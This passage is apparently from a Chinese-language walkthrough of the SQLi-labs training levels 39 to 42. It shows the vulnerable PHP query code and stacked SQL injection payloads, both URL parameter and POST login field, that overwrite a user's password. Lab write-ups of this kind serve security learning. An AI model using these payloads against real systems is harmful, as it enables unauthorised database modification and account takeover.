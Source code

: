 是数字型，拼接 sql 时不同，其它的思路与上题一样

```
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

```
?id=1;update users set password='123456' where username='test';--+ 
```

## Less-40

用 ') 闭合sql，其它的与 Less-38 一致

```
?id=1');update users set password='12345678' where username='test';--+ 
```

## Less-41

本关是无报错，其余同39关一样

## Less-42

部分重要源码,POST的堆叠注入

```
 $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
   if (@mysqli_multi_query($con1, $sql))
   ..............
```

POST提交

```
test
11';update users set password='123' where username='test';--+ 
```

<img src="图片\Snipaste_2023-01-23_16-15-49.png" alt="Snipaste_2023-01-23_16-15-49" style="zoom:50%;" />
